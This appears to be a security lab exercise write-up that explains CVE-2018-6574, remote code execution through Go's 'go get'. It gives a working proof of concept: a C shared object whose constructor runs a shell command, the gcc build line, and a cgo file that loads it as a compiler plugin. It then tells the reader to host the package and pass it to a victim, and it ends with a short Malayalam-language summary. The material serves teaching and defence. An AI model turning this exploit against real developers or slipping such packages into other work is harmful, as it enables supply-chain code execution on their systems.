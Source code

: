 ## Introduction
-->This exercise covers a remote command execution in Golang's go get command.
-->In this exercise, we are going to cover CVE-2018-6574. This vulnerability impacts Golang `go get` command and allows an attacker to gain code execution on a system installing his malicious library. This is a good example of a vulnerability that can be exploited using [typosquatting](https://en.wikipedia.org/wiki/Typosquatting) to gain code execution on developers' workstations and production systems. This vulnerability was fixed in Go 1.8.7, 1.9.4 and 1.10rc2.

## The issue
-->The issue is due to the fact that when installing a package, Golang will build native extensions. This can be used to pass additional flags to the compiler to gain code execution. For example, `CFLAGS` can be used.

## Exploitation
-->Here, we will need to host our malicious package. We need a website with TLS and a valid certificate chain. An easy way to do this is to use [github.com](https://github.com).
-->Then, you will need a malicious plugin/`.so` file. The code below should help you with that:
```
	#include<stdio.h>
	#include<stdlib.h>
	 
	static void malicious() __attribute__((constructor));
	 
	void malicious() {
	    system("touch /tmp/owned");
	}
```
-->You can build it using the following command:
```c
$ gcc -shared -o attack.so -fPIC attack.c
```
-->You will need to build that plugin on the same platform and architecture as the victim: Linux 64bit.
-->Finally, you need the go code that will tell `cgo` to use your plugin:
```
	package main
	// #cgo CFLAGS: -fplugin=./attack.so
	// typedef int (*intFunc) ();
	//
	// int
	// bridge_int_func(intFunc f)
	// {
	//      return f();
	// }
	//
	// int fortytwo()
	// {
	//      return 42;
	// }
	import "C"
	import "fmt"
	 
	func main() {
	    f := C.intFunc(C.fortytwo)
	    fmt.Println(int(C.bridge_int_func(f)))
	    // Output: 42
	}
```
-->Once you host your full payload on Github, you should be able to pass the package link to the victim.
-->Please make sure you remove or make your repository private once you solved this challenge

## Conclusion
-->This exercise showed you how you use exploit CVE-2018-6574 to gain code execution on a vulnerable system. This type of attacks can also be used to escalate your privileges on some system.

# Video Explanation
-->ivide namal nokunath golang il use chyuna go get command il ulla vulnerability aan.
-->go get enna command packages install chyan vendi use chyuna command aan
-->so ivide enth chyanamenal oru malicious package namal undakuka enit victim ee package install chythkazhiyumbol namuk RCE kitum ok
-->victim library use chyumbol alla pakaram install chyumbol aan work aakunath polum
-->